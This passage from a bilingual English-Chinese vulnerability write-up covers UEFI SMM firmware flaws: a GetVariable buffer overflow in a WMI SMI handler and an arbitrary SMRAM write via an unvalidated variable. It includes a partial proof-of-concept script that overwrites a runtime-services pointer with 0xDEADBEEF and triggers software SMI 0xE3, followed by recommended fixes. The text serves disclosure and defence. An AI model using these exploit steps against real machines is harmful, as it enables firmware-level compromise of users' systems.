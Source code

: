 ```

  if status != 0:
    print("Failed to set WMIAcpiMemAddr variable!")
    exit(1)

overflow = WMIPayload()
overflow.gSMRT = 0xDEADBEEF

set_wmi_var(overflow)

// fire handler which calls GetVariable, which will cause pWMIAcpiMemAddr to overflow
self.interupts.send_SW_SMI(0x0, 0xE3, 0, 0, 0, 0, 0, 0, 0)

// the next call to SMI handler 0xE3 will call 0xDEADBEEF->GetVariable instead of gRT->GetVariable
// so, if one were able to write shellcode to that address, then redirecting execution would be achieved
self.interupts.send_SW_SMI(0x0, 0xE3, 0, 0, 0, 0, 0, 0, 0)
```

##### [#](#the-fix) The Fix # 修复

*   Statically set `DataSize` to 8 if writing status messages to physical memory is a requirement.  
    如果需要将状态信息写入物理内存，则将 `DataSize` 静态设置为 8。
*   OR check the value of `DataSize` after the initial call to `GetVariable`, return if greater than 8.  
    或在初始调用 `GetVariable` 后检查 `DataSize` 的值，如果大于 8 则返回。

### [#](#vulnerability-ii-arbitrary-write-to-physical-memory-including-smram) Vulnerability II: Arbitrary Write To Physical Memory (including SMRAM)  
# 漏洞 II：任意写入物理内存（包括 SMRAM）

##### [#](#the-problem-1) The Problem # 问题所在

The attacker-controlled `WMIAcpiMemAddr` variable is never validated - leading to two arbitrary SMM write primitives.  
攻击者控制的 `WMIAcpiMemAddr` 变量从未经过验证--导致两个任意的 SMM 写入原语。

```
fnWriteStatusToMemory("Access Denied", &pWMIAcpiMemAddr->status);
```

```
fnResetWideString(&pWMIAcpiMemAddr->status, 2 * v8, 0i64);
```

##### [#](#the-result-1) The Result  # 结果

An attacker who controls the contents of the `WMIAcpiMemAddr` variable can leverage the two functions above to write data at `pWMIAcpiMemAddr->status` _(pWMIAcpiMemAddr+0x79)_, leading to SMRAM corruption.  
控制 `WMIAcpiMemAddr` 变量内容的攻击者可以利用上述两个函数在 `pWMIAcpiMemAddr->status` （pWMIAcpiMemAddr+0x79）处写入数据，导致 SMRAM 损坏。

